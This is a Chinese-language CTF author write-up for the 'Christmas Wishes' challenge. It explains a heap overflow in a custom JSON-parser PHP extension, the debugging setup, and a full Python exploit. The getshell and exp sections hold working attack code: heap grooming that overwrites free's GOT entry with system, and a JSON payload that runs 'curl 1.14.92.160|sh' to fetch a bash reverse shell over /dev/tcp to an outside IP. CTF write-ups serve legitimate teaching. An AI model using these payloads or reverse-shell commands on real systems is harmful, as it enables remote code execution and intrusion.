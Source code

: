 # Christmas Wishes

* [Christmas Wishes](#christmas-wishes)
   * [题目描述](#题目描述)
   * [出题思路](#出题思路)
   * [调试方案](#调试方案)
   * [getshell](#getshell)
   * [exp](#exp)

## 题目描述

圣诞许愿！请输入你的愿望吧！现在已经全面支持json格式！(漏洞利用脚本存在直接成功情况，请在本地搭建环境成功后尝试利用远程，远程环境每五分钟重启一次。)
Make a Christmas wish! Please enter your wish! Now has full support for json format! (Vulnerability exploit script exists direct success, please try to exploit the remote after a successful local build environment, remote environment restart every five minutes.)

题目分值：800

解题人数：6

## 出题思路

其实最开始没想做成一个php pwn题目，原本就是写了个json parser， 然后模拟一个大的项目中的用来处理json的一个小组件，里面存在漏洞， 构造个环境去利用。

在写完以后发现了一个parser_string位置的堆溢出漏洞，而且和`cve 2021 3156`一样。

![image-20220103005237802](https://s2.loli.net/2022/01/03/LuRnxqacFE8TIv7.png)

然后配合链表单向修改可以实现任意地址写，

![image.png](https://s2.loli.net/2022/01/03/cULSumZFydVgvWj.png)

在和[@AFKL](https://afkl-cuit.github.io/)简单讨论这个思路时提到可以直接做成一个php网站，由于本来的代码也是模块化出来的，于是很简单的修改成了一个php拓展，搭建出来目前这个样子。

原本elf版本的在文件 `JsonParse_elf`， php拓展在文件`jsonparser_php`， 

## 调试方案

因为是个so文件，编写了一个简单的loader进行调试

```c
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>
#include <stdlib.h>

typedef struct reader {
    char *buf;
    int size;
    int offset;
} _reader;

int main(){
    void *handle = dlopen("modules/jsonparser.so", RTLD_LAZY);
    void *(* Parser)(void *temp);
    _reader *reader = malloc(0x10);
    char * json = malloc(0x100);
    int fd = open("./exp.json", 0);
    int size = read(fd, json, 0x100);
    reader->buf = json;
    reader->size = size;
    reader->offset = 0;

    Parser = dlsym(handle, "Parser");
    Parser(reader);
}
```

思路是通过重复删除机制构造堆布局，然后通过堆溢出覆盖Item_struct， 通过重复删除的双链表修改可以实现地址修改，将so文件的free_got改为system， 基本可以调试并得到exp， 



在出题过程中对远程docker环境的调试，

直接hook掉了malloc free函数， 在函数`zif_jsonparser_test2`位置增加代码即可，通过`php_printf`打印相关信息可以得到远程的堆环境，(文件在`jsonparser_patch.so`)

```
call 0x0000000000002504
0000000000002504 hook_malloc  

	push rdi;
	call 0x000000000002220;
	pop rsi;
	push rax;
	mov rdx, rax;
	lea rax, qword ptr [0x0000000000024B9]
	mov rdi, rax;
	call 0x00000000002230
	pop rax;
	ret;


call 0x0000000000002526
0000000000002526 hook_free   

	push rdi;
	mov rsi, rdi;
	lea rax, qword ptr [0x000000000024D9]
	mov rdi, rax;
	call 0x00000000002230
	pop rdi;
	call 0x0000000000002050;
	ret;
```

> 甚至在这个操作中还解决了一个bug

![image.png](https://s2.loli.net/2022/01/03/YvHV6ecm4MnzbXi.png)

> 图中可以看到， 最后free的堆块为 0x9200，向上找到size为0x40为item结构体， 而我们构造的溢出的字符串为0x17的 地址为0x91e0，于是可以直接向下覆盖， 修改掉这个结构体，利用delete_item位置。

![image.png](https://s2.loli.net/2022/01/03/AvkiGLwWQS1xRFg.png)

然后编写了个memory_detection的拓展 封装成api， 用于直接查看内存。

```c
PHP_FUNCTION(memory_detection)
{
	long var;
	ZEND_PARSE_PARAMETERS_START(0, 1)
		Z_PARAM_OPTIONAL
		Z_PARAM_LONG(var)
	ZEND_PARSE_PARAMETERS_END();

	php_printf("memeory detection: [%p]\n", var);
	void * p;
	for(int i=0; i<0x100; i++){
		p = var + i*8;
		php_printf("addr[%p]: \t%016llx\t%s\n", p, (long long)*(long long *)p, (char *)p);
	}
}
```

```php
<?php 
memory_detection(base_convert($_GET["addr"], 16, 10));
```

![image.png](https://s2.loli.net/2022/01/03/VWzI7vfjYRFnKtx.png)

## getshell

最后反弹shell， `bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'`, 

## exp

```python
from pwn import * 
import requests

# context.log_level='debug'
# context.terminal=['tmux', 'splitw', '-h']

# cn = process("./loader")

host = 'http://124.70.201.145:7777/'

cmd = '''
# b * Parser
# b * new_Object
b * delete_item
'''
def hhex(number):
    num = "{:0>16x}".format(number)
    tmp = [num[i:i+2] for i in range(0, 16, 2)][::-1]
    tmp2 = ["".join(tmp[i:i+2]) for i in range(0, 8, 2)]
    return "\\u" + "\\u".join(tmp2)


def printff(num):
    print("{:0>16x}".format(num))

# from /proc/self/maps
base = 0x7f872c6e2000
system     = base + 0x000000000002170
printf     = base + 0x000000000002230
free_got   = base + 0x000000000006028
bss = base + 0x00000000000632C


echohello = base + 0x0000000000004059


json = '''
{{
    "1": "aaaaaaa", 
    "2": "aaaaaaa", 
    "3": "aaaaaaa", 
    "4": "aaaaaaa", 
    "5": "aaaaaaa", 
    "6": "aaaaaaa", 
    "7": "aaaaaaa", 
    "8": "aaaaaaa", 
    "A": "aaaaaaa", 
    "A": "bbbbbbb",
    "A": 1, 
    "B": 2,
    "echo hello": "{pad1}\\\x00{pad2}{fake_item}"
}}
'''.format(
    pad1 = 'c' * 0x15, 
    pad2 = 'a'* (0x20 - 0x15), 
    # fake_item = "sh -i < /dev/tcp/81.69.0.47/9" + "\\u0000a" + hhex(echohello) + hhex(0) + hhex(printf) + hhex(free_got - 0x30)
    fake_item = "bash -c 'curl 1.14.92.160|sh'\\u0000"+'a'*1 + hhex(echohello) + hhex(0) + hhex(system) + hhex(free_got - 0x30)
)
'''
wlz@VM-0-4-ubuntu:~$ curl 1.14.92.160
bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'
'''


r = requests.post(host, data={'wishes': json})
print(r.status_code)
print(r.text)
print(json)

printff(system)
printff(printf)
printff(free_got)


# gdb.attach(cn, cmd)
# cn.sendline(json)
# cn.interactive()

```

